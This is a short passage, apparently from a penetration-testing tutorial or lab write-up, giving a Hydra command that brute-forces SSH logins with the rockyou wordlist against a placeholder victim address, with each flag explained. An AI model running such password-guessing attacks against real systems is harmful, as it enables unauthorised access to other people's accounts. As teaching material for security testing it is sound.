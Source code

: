 We will use the tool **Hydra**

````
hydra -s 22 -v -V -l user -P /usr/share/wordlists/rockyou.txt -t 8 victim's_ip ssh

#-s designates the port to be used
#-v and -V are for maximum verbosity
#-l selects the login name
#-P selects the wordlist
-t selects the number of parallel tasks or connections
````

![](img/hydra accepted.png)
